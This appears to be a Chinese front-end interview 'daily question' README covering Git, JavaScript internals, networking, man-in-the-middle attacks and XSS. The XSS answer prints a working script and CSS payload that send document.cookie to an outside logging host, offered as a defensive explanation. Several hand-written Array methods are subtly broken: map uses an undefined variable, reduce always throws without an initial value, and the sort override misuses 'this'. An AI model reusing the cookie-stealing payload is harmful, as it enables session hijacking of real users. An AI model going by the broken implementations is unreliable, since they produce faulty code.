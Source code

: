 ## 每日一题[（生活一题）](./life.md):books:

[**《小皮咖 · 每日一文》**](./article.md)

[3 月至 5 月《每日一题》](./3-5.md)

在这里记录着每天自己遇到的一道印象深刻的前端问题，以及一道生活中随处可见的小问题。

强迫自己形成积累的习惯，鞭挞自己不断前行，共同学习。

### **2019/07/08 - 2019/07/14** :watch:

---

- Git 如何打标签和切换标签？

  <details>
  <summary>点击</summary>

  ```js
  // 附注标签
  git tag -a v1.1.0 -m 'v1.1.0 release'

  // 本地推送到远程
  git push origin <tag name>  // 推送一个标签到远程

  git push origin --tags   // 推送全部未推送的本地标签

  // 本地删除标签
  git tag -d <tag name>

  // 远程删除标签
  git push origin :refs/tags/<tag name>   // 本地tag删除了，在执行该句，删除远程tag
  ```

  </details>

- decodeURI 与 decodeURIComponent 区别 ?

  <details>
  <summary>点击</summary>

  encodeURI()和 encodeURIComponent()方法可以对 URI 进行编码，以便发送给浏览器。有效的 URI 中不能包含某些字符，例如空格。而这 URI 编码方法就可以对 URI 进行编码，它们用特殊的 UTF-8 编码替换所有无效的字 符，从而让浏览器能够接受和理解。

  它们的主要区别在于，encodeURI() 不会对本身属于 URI 的特殊字符进行编码，例如冒号、正斜杠、问号和井字号；而 encodeURIComponent() 则会对它发现的任何非标准字符进行编码。
  </detail>

* 取整有几种方式？

  <details>
  <summary>点击</summary>

  ```JS
  var a = ~~2.33 // ~是按位非，就是每一位取反，~~常用来取整

  var b= 2.33 | 0 // 或运算

  var c= 2.33 >> 0

  ```

  </details>

### **2019/07/01 - 2019/07/07** :watch:

---

- 什么是临时性死区？

- 如何使用 javascript 实现枚举？

  <details>
  <summary>点击</summary>

  ```js
  // 可以 Object.freeze 来实现枚举,枚举对象的属性不会被改变
  var DaysEnum = Object.freeze({
    monday: 1,
    tuesday: 2,
    wednesday: 3,
  });
  ```

  </details>

- 去除 webpack 开启 dev 服务时的日志打印？

  webpack dev 配置中添加属性 `stats: 'errors-only'`

- 如何获取 iframe 中的 cookie ?

- 如何跳出 forEach 循环？

  <details>
  <summary>点击</summary>

  首先，看一段代码

  ```js
  var a = [1, 2, 3, 4, 5];
  a.forEach(item => {
    console.log(item); //输出：1,2
    if (item === 2) {
      //todo 想办法跳出循环
    }
  });
  ```

  此时，使用 break 或者 return 并不能跳出循环，为何？foreach 编译后代码如下：

  ```js
  const arr = [1, 2, 3, 4, 5];
  for (let i = 0; i < arr.length; i++) {
    const rs = (function(item) {
      console.log(item);
      if (item > 2) return false;
    })(arr[i]);
  }
  // 因此无法跳出循环
  ```

  1. 抛出一个错误可以结束 forEach 循环

  ```js
  try {
    [1, 2, 3, 4, 5].forEach(function(item) {
      if (item === 2) throw item;
      console.log(item);
    });
  } catch (e) {}
  ```

  2. 使用 splice 或 array.length

  已删除的项不会被遍历到。如果已访问的元素在迭代时被删除，之后的元素将被跳过。因此我们可以用 length 或 splice 来修改数组

  ```js
  var arr = [1, 2, 3, 4, 5];
  arr.forEach((item, index) => {
    console.log(item);
    if (item === 2) {
      arr.length = index;
    }
  });
  ```

  直接修改数组的 length, 原数组便发生了更改，有时候我们并不要这种更改，因此我们可以使用一个小技巧，即将数组从 0 开始截断，然后重新赋值给数组也就是 array=array.splice(0)

  ```js
  var arr = [1, 2, 3, 4, 5];
  arr.forEach((item, index) => {
    console.log(item);
    if (item === 2) {
      arr = arr.splice(0);
    }
  });
  // 数组被清空后又将删除的元素数组赋值给原数组，因此原数组没有变化且跳出了循环
  ```

  </details>

- IP 地址和 Mac 地址有什么区别？

  <details>
  <summary>点击</summary>

  IP 地址是逻辑上的，用户可以修改自己设备的 IP 地址，Mac 地址是物理上的，直接烧入物理设备，比如路由器，用户不能轻易修改。

  IP 地址负责标记发送方和接收方，而 MAC 地址负责传输过程中的分段传送，二者缺一不可。

  </details>

* UDP 和 TCP 相比有何不同？

  <details>
  <summary>点击</summary>

  UDP 是一个简单的传输层协议。和 TCP 相比，UDP 有下面几个显著特性：

  - UDP 缺乏可靠性。UDP 本身不提供确认，序列号，超时重传等机制。UDP 数据报可能在网络中被复制，被重新排序。即 UDP 不保证数据报会到达其最终目的地，也不保证各个数据报的先后顺序，也不保证每个数据报只到达一次
  - UDP 数据报是有长度的。每个 UDP 数据报都有长度，如果一个数据报正确地到达目的地，那么该数据报的长度将随数据一起传递给接收方。而 TCP 是一个字节流协议，没有任何（协议上的）记录边界。
  - UDP 是无连接的。UDP 客户和服务器之前不必存在长期的关系。UDP 发送数据报之前也不需要经过握手创建连接的过程。
  - UDP 支持多播和广播。

  </details>

### **2019/06/24 - 2019/06/30** :watch:

---

- 什么是中间人攻击？

  <details>
  <summary>点击</summary>

  所谓中间人攻击，指攻击者与通讯的两端分别建立独立的联系，并交换其所收到的数据，使通讯的两端认为他们正在通过一个私密的连接与对方直接对话，但事实上整个会话都被攻击者完全控制。在中间人攻击中，攻击者可以拦截通讯双方的通话并插入新的内容。

  1. **SSL 剥离**

  SSL 剥离即阻止用户使用 HTTPS 访问网站。由于并不是所有网站都只支持 HTTPS，大部分网站会同时支持 HTTP 和 HTTPS 两种协议。用户在访问网站时，也可能会在地址栏中输入 http:// 的地址，第一次的访问完全是明文的，这就给了攻击者可乘之机。通过攻击 DNS 响应，攻击者可以将自己变成中间人。

  **解决方法：**

  为了防止上面说的这种情况，一种叫做 HSTS 的技术被引入了。HSTS（HTTP Strict Transport Security）是用于强制浏览器使用 HTTPS 访问网站的一种机制。它的基本机制是在服务器返回的响应中，加上一个特殊的头部，指示浏览器对于此网站，强制使用 HTTPS 进行访问

  2. **伪造证书攻击**

  HSTS 只解决了 SSL 剥离的问题，然而即使在全程使用 HTTPS 的情况下，我们仍然有可能被监听。

  假设我们想访问 www.google.com，但我们的 DNS 服务器被攻击了，指向的 IP 地址并非 Google 的服务器，而是攻击者的 IP。当攻击者的服务器也有合法的证书的时候，我们的浏览器就会认为对方是 Google 服务器，从而信任对方。这样，攻击者便可以监听我们和谷歌之前的所有通信了。

  可以看到攻击者有两步需要操作，第一步是需要攻击 DNS 服务器。第二步是攻击者自己的证书需要被用户信任，这一步对于用户来说是很难控制的，需要证书颁发机构能够控制自己不滥发证书。

  **解决方法：**

  HPKP 技术是为了解决伪造证书攻击而诞生的。

  HPKP（Public Key Pinning Extension for HTTP）在 HSTS 上更进一步，HPKP 直接在返回头中存储服务器的公钥指纹信息，一旦发现指纹和实际接受到的公钥有差异，浏览器就可以认为正在被攻击

  </details>

- 实现数组 sort 方法 ?

  <details>
  <summary>点击</summary>

  设要排序的元素个数是 n：

  - 当 n <= 10 时，采用插入排序
  - 当 n > 10 时，采用三路快速排序

    - 10 < n <= 1000, 采用中位数作为哨兵元素
    - n > 1000, 每隔 200~215 个元素挑出一个元素，放到一个新数组，然后对它排序，找到中间位置的数，以此作为中位数

  ```js
  const sort = (arr, comparefn) => {
    let array = Object(arr);
    let length = array.length >>> 0;
    return InnerArraySort(array, length, comparefn);
  };

  const InnerArraySort = (array, length, comparefn) => {
    // 比较函数未传入
    if (Object.prototype.toString.call(comparefn) !== '[object Function]') {
      comparefn = function(x, y) {
        if (x === y) return 0;
        x = x.toString();
        y = y.toString();
        if (x == y) return 0;
        else return x < y ? -1 : 1;
      };
    }
    // 插入排序
    const insertSort = (arr, start = 0, end) => {
      end = end || arr.length;
      for (let i = start; i < end; i++) {
        let e = arr[i];
        let j;
        for (j = i; j > start && comparefn(arr[j - 1], e) > 0; j--)
          arr[j] = arr[j - 1];
        arr[j] = e;
      }
      return;
    };
    const getThirdIndex = (a, from, to) => {
      let tmpArr = [];
      // 递增量，200~215 之间，因为任何正数和15做与操作，不会超过15，当然是大于0的
      let increment = 200 + ((to - from) & 15);
      let j = 0;
      from += 1;
      to -= 1;
      for (let i = from; i < to; i += increment) {
        tmpArr[j] = [i, a[i]];
        j++;
      }
      // 把临时数组排序，取中间的值，确保哨兵的值接近平均位置
      tmpArr.sort(function(a, b) {
        return comparefn(a[1], b[1]);
      });
      let thirdIndex = tmpArr[tmpArr.length >> 1][0];
      return thirdIndex;
    };

    const _sort = (a, b, c) => {
      let arr = [];
      arr.push(a, b, c);
      insertSort(arr, 0, 3);
      return arr;
    };

    const quickSort = (a, from, to) => {
      //哨兵位置
      let thirdIndex = 0;
      while (true) {
        if (to - from <= 10) {
          // 长度小于10，插入排序
          insertSort(a, from, to);
          return;
        }
        if (to - from > 1000) {
          // 把临时数组排序，取中间的值，确保哨兵的值接近平均位置
          thirdIndex = getThirdIndex(a, from, to);
        } else {
          // 小于1000 直接取中点
          thirdIndex = from + ((to - from) >> 2);
        }
        // 使用插入排序对比起点，哨兵位置，终点，返回数组
        let tmpArr = _sort(a[from], a[thirdIndex], a[to - 1]);
        a[from] = tmpArr[0];
        a[thirdIndex] = tmpArr[1];
        a[to - 1] = tmpArr[2];

        // 现在正式把 thirdIndex 作为哨兵
        let pivot = a[thirdIndex];
        [a[from], a[thirdIndex]] = [a[thirdIndex], a[from]];
        // 正式进入快排
        let lowEnd = from + 1;
        let highStart = to - 1;
        a[thirdIndex] = a[lowEnd];
        a[lowEnd] = pivot;
        // [lowEnd, i)的元素是和pivot相等的
        // [i, highStart) 的元素是需要处理的
        for (let i = lowEnd + 1; i < highStart; i++) {
          let element = a[i];
          let order = comparefn(element, pivot);
          if (order < 0) {
            a[i] = a[lowEnd];
            a[lowEnd] = element;
            lowEnd++;
          } else if (order > 0) {
            do {
              highStart--;
              if (highStart === i) break;
              order = comparefn(a[highStart], pivot);
            } while (order > 0);
            // 现在 a[highStart] <= pivot
            // a[i] > pivot
            // 两者交换
            a[i] = a[highStart];
            a[highStart] = element;
            if (order < 0) {
              // a[i] 和 a[lowEnd] 交换
              element = a[i];
              a[i] = a[lowEnd];
              a[lowEnd] = element;
              lowEnd++;
            }
          }
        }
        // 永远切分大区间
        if (lowEnd - from > to - highStart) {
          // 单独处理小区间
          quickSort(a, highStart, to);
          // 继续切分lowEnd ~ from 这个区间
          to = lowEnd;
        } else if (lowEnd - from <= to - highStart) {
          quickSort(a, from, lowEnd);
          from = highStart;
        }
      }
    };
    quickSort(array, 0, length);
  };

  Array.prototype.sort = comparefn => {
    let array = Object(this);
    let length = array.length >>> 0;
    return InnerArraySort(array, length, comparefn);
  };
  ```

  </details>

- 实现数组 splice 方法 ?

  <details>
  <summary>点击</summary>

  splice 可以说是最受欢迎的数组方法之一，api 灵活，使用方便。现在来梳理一下用法:

  1. splice(position, count) 表示从 position 索引的位置开始，删除 count 个元素

  2. splice(position, 0, ele1, ele2, ...) 表示从 position 索引的元素后面插入一系列的元素

  3. splice(postion, count, ele1, ele2, ...) 表示从 position 索引的位置开始，删除 count 个元素，然后再插入一系列的元素

  4. 返回值为被删除元素组成的数组。

  ```js
  const sliceDeleteElements = (array, startIndex, deleteCount, deleteArr) => {
    for (let i = 0; i < deleteCount; i++) {
      let index = startIndex + i;
      if (index in array) {
        let current = array[index];
        deleteArr[i] = current;
      }
    }
  };

  const movePostElements = (
    array,
    startIndex,
    len,
    deleteCount,
    addElements
  ) => {
    // 如果添加的元素和删除的元素个数相等，相当于元素的替换，数组长度不变，被删除元素后面的元素不需要挪动
    if (deleteCount === addElements.length) return;
    // 如果添加的元素和删除的元素个数不相等，则移动后面的元素
    else if (deleteCount > addElements.length) {
      // 删除的元素比新增的元素多，那么后面的元素整体向前挪动
      // 一共需要挪动 len - startIndex - deleteCount 个元素
      for (let i = startIndex + deleteCount; i < len; i++) {
        let fromIndex = i;
        // 将要挪动到的目标位置
        let toIndex = i - (deleteCount - addElements.length);
        if (fromIndex in array) {
          array[toIndex] = array[fromIndex];
        } else {
          delete array[toIndex];
        }
      }
      // 注意注意！这里我们把后面的元素向前挪，相当于数组长度减小了，需要删除冗余元素
      // 目前长度为 len + addElements - deleteCount
      for (let i = len - 1; i >= len + addElements.length - deleteCount; i--) {
        delete array[i];
      }
    } else if (deleteCount < addElements.length) {
      // 删除的元素比新增的元素少，那么后面的元素整体向后挪动
      // 思考一下: 这里为什么要从后往前遍历？从前往后会产生什么问题？
      for (let i = len - 1; i >= startIndex + deleteCount; i--) {
        let fromIndex = i;
        // 将要挪动到的目标位置
        let toIndex = i + (addElements.length - deleteCount);
        if (fromIndex in array) {
          array[toIndex] = array[fromIndex];
        } else {
          delete array[toIndex];
        }
      }
    }
  };

  const computeStartIndex = (startIndex, len) => {
    // 处理索引负数的情况
    if (startIndex < 0) {
      return startIndex + len > 0 ? startIndex + len : 0;
    }
    return startIndex >= len ? len : startIndex;
  };

  const computeDeleteCount = (startIndex, len, deleteCount, argumentsLen) => {
    // 删除数目没有传，默认删除startIndex及后面所有的
    if (argumentsLen === 1) return len - startIndex;
    // 删除数目过小
    if (deleteCount < 0) return 0;
    // 删除数目过大
    if (deleteCount > len - deleteCount) return len - startIndex;
    return deleteCount;
  };

  Array.prototype.splice = function(startIndex, deleteCount, ...addElements) {
    let argumentsLen = arguments.length;
    let array = Object(this);
    let len = array.length >>> 0;
    let deleteArr = new Array(deleteCount);
    // 处理索引为负数或者超出数组长度的值
    startIndex = computeStartIndex(startIndex, len);
    // 处理索引为过小过大或不存在时的值
    deleteCount = computeDeleteCount(
      startIndex,
      len,
      deleteCount,
      argumentsLen
    );

    // 判断 sealed 对象和 frozen 对象, 即 密封对象 和 冻结对象
    if (Object.isSealed(array) && deleteCount !== addElements.length) {
      throw new TypeError('the object is a sealed object!');
    } else if (
      Object.isFrozen(array) &&
      (deleteCount > 0 || addElements.length > 0)
    ) {
      throw new TypeError('the object is a frozen object!');
    }

    // 拷贝删除的元素，将删除的元素放入deleteArr
    sliceDeleteElements(array, startIndex, deleteCount, deleteArr);
    // 移动删除元素后面的元素
    movePostElements(array, startIndex, len, deleteCount, addElements);

    // 插入新元素
    for (let i = 0; i < addElements.length; i++) {
      array[startIndex + i] = addElements[i];
    }
    // 修改数组长度
    array.length = len - deleteCount + addElements.length;

    return deleteArr;
  };
  ```

  </details>

- 实现数组 filter 方法 ?

  <details>
  <summary>点击</summary>

  ```js
  Array.prototype.filter = function(callbackfn, thisArg) {
    // 处理数组类型异常
    if (this === null || this === undefined) {
      throw new TypeError("Cannot read property 'filter' of null or undefined");
    }
    // 处理回调类型异常
    if (Object.prototype.toString.call(callbackfn) != '[object Function]') {
      throw new TypeError(callbackfn + ' is not a function');
    }
    let O = Object(this);
    let len = O.length >>> 0;
    let resLen = 0;
    let res = [];
    // 判断符合callback为true时，将item赋值进数组
    for (let i = 0; i < len; i++) {
      if (i in O) {
        let element = O[i];
        if (callbackfn.call(thisArg, O[i], i, O)) {
          res[resLen++] = element;
        }
      }
    }
    return res;
  };
  ```

  </details>

- 实现数组 push、pop 方法 ?

  <details>
  <summary>点击</summary>

  ```js
  Array.prototype.push = function(...items) {
    let O = Object(this);
    let len = this.length >>> 0;
    let argCount = items.length >>> 0;
    // 2 ** 53 - 1 为JS能表示的最大正整数
    if (len + argCount > 2 ** 53 - 1) {
      throw new TypeError(
        'The number of array is over the max value restricted!'
      );
    }
    // 最后加一个，然后长度 length + 1
    for (let i = 0; i < argCount; i++) {
      O[len + i] = items[i];
    }
    let newLength = len + argCount;
    O.length = newLength;
    return newLength;
  };

  Array.prototype.pop = function() {
    let O = Object(this);
    let len = this.length >>> 0;
    if (len === 0) {
      O.length = 0;
      return undefined;
    }
    // 使用object的delete删除最后一个，并且length - 1
    len--;
    let value = O[len];
    delete O[len];
    O.length = len;
    return value;
  };
  ```

  </details>

* 实现数组 reduce 方法 ?

  <details>
  <summary>点击</summary>

  ```js
  Array.prototype.reduce = function(callbackfn, initialValue) {
    // 异常处理，和 map 一样
    // 处理数组类型异常
    if (this === null || this === undefined) {
      throw new TypeError("Cannot read property 'reduce' of null or undefined");
    }
    // 处理回调类型异常
    if (Object.prototype.toString.call(callbackfn) != '[object Function]') {
      throw new TypeError(callbackfn + ' is not a function');
    }
    let O = Object(this);
    let len = O.length >>> 0;
    let k = 0;
    let accumulator = initialValue;
    if (accumulator === undefined) {
      for (; k < len; k++) {
        // 查找原型链
        if (k in O) {
          accumulator = O[k];
          k++;
          break;
        }
      }
      // 循环结束还没退出，就表示数组全为空
      throw new Error('Each element of the array is empty');
    }
    for (; k < len; k++) {
      if (k in O) {
        // 注意，核心！
        accumulator = callbackfn.call(undefined, accumulator, O[k], O);
      }
    }
    return accumulator;
  };
  ```

  </details>

* 实现数组 map 方法？

  <details>
  <summary>点击</summary>

  ```js
  Array.prototype.map = function(callback, thisArg) {
    // 处理数组类型异常
    if (this === null || this === undefined) {
      throw new TypeError("Cannot read property 'map' of null or undefined");
    }
    // 处理回调类型异常
    if (Object.prototype.toString.call(callback) != '[object Function]') {
      throw new TypeError(callback + ' is not a function');
    }
    // 先转换为对象
    let obj = Object(this);
    let T = thisArg;
    let len = obj.length >>> 0;
    let arr = new Array(len);
    for (let k = 0; k < len; k++) {
      // in 表示在原型链查找
      // 如果用 hasOwnProperty 是有问题的，它只能找私有属性
      if (k in obj) {
        let kValue = obj[k];
        // 依次传入 this, 当前项，当前索引，整个数组
        let mappedValue = callback.call(T, KValue, k, obj);
        arr[k] = mappedValue;
      }
    }
    return arr;
  };
  ```

  </details>

### **2019/06/17 - 2019/06/23** :watch:

---

- `>>` 和 `>>>` 有什么不一样 ?

  <details>
  <summary>点击</summary>

  `>>>` 是无符号右移，`>>` 是有符号移位

  `>>` 有符号移位：该操作符会将第一个操作数向右移动指定的位数。向右被移出的位被丢弃，拷贝最左侧的位以填充左侧

  ```js
  -9 >> 2;
  // 11111111111111111111111111110111; -> 11111111111111111111111111111101   // -3
  ```

  `>>>` 无符号移位：该操作符会将第一个操作数向右移动指定的位数。向右被移出的位被丢弃，左侧用 0 填充。因为符号位变成了 0，所以结果总是非负的。（即便右移 0 个比特，结果也是非负的。）

  ```js
  9 >>> 2;
  // 00000000000000000000000000001001; ->  00000000000000000000000000000010 // 2
  ```

  </details>

- 给定一个链表，删除链表的倒数第 n 个节点，如何实现?

- 在数组中找出三个数，使得它们的和为 N?

- 如何反转单向链表?

- 谈一谈链表和数组的区别?

  <details>
  <summary>点击</summary>

  **数组的定义**：数据是一种线性表数据结构，它用一组连续的内存空间，来存储一组具有相同类型的数据。

  由于数组在内存中是连续存放的，所以通过下标来随机访问数组中的元素效率是非常高的。但与此同时，为了保证连续性，如果想在数组中添加一个元素，需要大量地对数据进行搬移工作。同理想在数组中删除一个元素也是如此。所以我们得出一个结论：**在数组中随机访问的效率很高，但是执行添加和删除时效率低下，平均时间复杂度为 O(n)**。

  **链表的定义**： 是一种物理存储单元上非连续、非顺序的存储结构，数据元素的逻辑顺序是通过链表中的指针链接次序实现的。

  刚才介绍了在数组中添加和删除一个元素的效率是低下的。而链表的存储空间是不连续的，使用链表添加或者删除一个数据，我们并不需要为了保持内存的连续性而对数据进行搬移，所以在链表中添加和删除元素是非常高效的。但万事都有两面性，正因为链表的存储空间是不连续的，想要在链表中访问一个元素时，就无法像数组一样根据首地址和下标，通过寻址公式来计算出对应的节点。而只能通过指针去依次遍历找出相应的节点。所以我们得出一个结论：**在链表中执行添加和删除操作时效率很高，而随机访问的效率很低，平均时间复杂度为 O(n)。**

  </details>

- 正则的贪婪模式和混淆模式？

- `getBoundingClientRect()` 的作用？

  用于获取某个元素相对于视窗的位置集合。集合中有**top**, **right**, **bottom**, **left** 等属性。

### **2019/06/10 - 2019/06/16** :watch:

---

- 为什么 **var** 可以重复声明？

  因为编译器会在判断有已经声明的同名变量时忽略 **var**，然后直接赋值

- **requestAnimationFrame** 实现的动画如何清除？

    <details>
    <summary>点击</summary>

  使用 cancelAnimationFrame，如下：

  ```js
  let animate = requestAnimationFrame(animateFunc);

  cancelAnimationFrame(animate);
  ```

    </details>

- **js** 动画为何推荐用 **requestAnimationFrame** 而不用 **setTimeout** ?

    <details>
    <summary>点击</summary>

  **requestAnimationFrame**，顾名思义就是请求动画帧. 以屏幕刷新频率（一般是每秒 60 帧）更新动画，符合人眼的**视觉停留效应**

  #### 为何不用 **setTimeout** ？

  利用 **seTimeout** 实现的动画在某些低端机上会出现卡顿、抖动的现象。 这种现象的产生有两个原因：

  - **setTimeout 的执行时间并不是确定的**。在 Javascript 中， setTimeout 任务被放进了异步队列中，只有当主线程上的任务执行完以后，才会去检查该队列里的任务是否需要开始执行，因此 setTimeout 的实际执行时间一般要比其设定的时间晚一些。

  - **刷新频率受屏幕分辨率和屏幕尺寸的影响**，因此不同设备的屏幕刷新频率可能会不同，而 setTimeout 只能设置一个固定的时间间隔，这个时间不一定和屏幕的刷新时间相同。

  以上两种情况都会导致 setTimeout 的执行步调和屏幕的刷新步调不一致，从而引起丢帧现象。

  **requestAnimationFrame** 还有以下两个优势：

  - **CPU 节能**：使用 setTimeout 实现的动画，当页面被隐藏或最小化时，setTimeout 仍然在后台执行动画任务，由于此时页面处于不可见或不可用状态，刷新动画是没有意义的，完全是浪费 CPU 资源。而 requestAnimationFrame 则完全不同，当页面处理未激活的状态下，该页面的屏幕刷新任务也会被系统暂停，因此跟着系统步伐走的 requestAnimationFrame 也会停止渲染，当页面被激活时，动画就从上次停留的地方继续执行，有效节省了 CPU 开销。

  - **函数节流**：在高频率事件(resize,scroll 等)中，为了防止在一个刷新间隔内发生多次函数执行，使用 requestAnimationFrame 可保证每个刷新间隔内，函数只被执行一次，这样既能保证流畅性，也能更好的节省函数执行的开销。一个刷新间隔内函数执行多次时没有意义的，因为显示器每 16.7ms 刷新一次，多次绘制并不会在屏幕上体现出来。

    </details>

* 如何获取页面某个元素的背景色 **background-color**?

- 首屏渲染白屏的原因可能有哪些？

- 为何要控制 **http** 的请求个数？

  因为在 http1.1 中，不同浏览器对同一域名下的 http 请求的最大并发数量有所限制，请求个数过多影响页面展示

- 淘宝 **flexible** 的原理？

### **2019/06/03 - 2019/06/09** :watch:

---

- 缓存策略？

- 为什么要将 **小图标** 转化为 **base64** ?

- **webpack** 流程是怎样子的？

- **XSS** 攻击如何防止窃取 **cookie** ?

  <details>
  <summary>点击</summary>

  首先讲讲**XSS** 攻击如何窃取 **cookie**？

  ```html
  <!-- js窃取cookie -->
  <script>
    new Image().src =
      'http://jehiah.com/_sandbox/log.cgi?c=' + encodeURI(document.cookie);
  </script>
  <!-- css窃取cookie -->
  <style>
    .getcookies {
      background-image: url('javascript:new Image().src="http://jehiah.com/_sandbox/log.cgi?c=" + encodeURI(document.cookie);');
    }
  </style>
  <p class="getcookies"></p>
  ```

  防止措施：

  不停地重设 session 的重设；将过期时间设置短一些；监控 referrer 与 userAgent 的值；使用 HttpOnly 禁止脚本读取 Cookie。

  </details>

- XSS 攻击会造成怎样的影响 ?

  <details>
  <summary>点击</summary>

  1、盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号

  2、控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

  3、盗窃企业重要的具有商业价值的资料

  4、非法转账

  5、强制发送电子邮件

  6、网站挂马

  7、控制受害者机器向其它网站发起攻击

  </details>

- 如何防止网络攻击？

  参考文章： [《前端网络安全》](https://zxpsuper.github.io/advanced_front_end/book/browser/safe.html)

* 网络攻击有哪些？

  参考文章： [《前端网络安全》](https://zxpsuper.github.io/advanced_front_end/book/browser/safe.html)

![](https://raw.githubusercontent.com/zxpsuper/daily-question/master/image/fork_and_star.jpg)
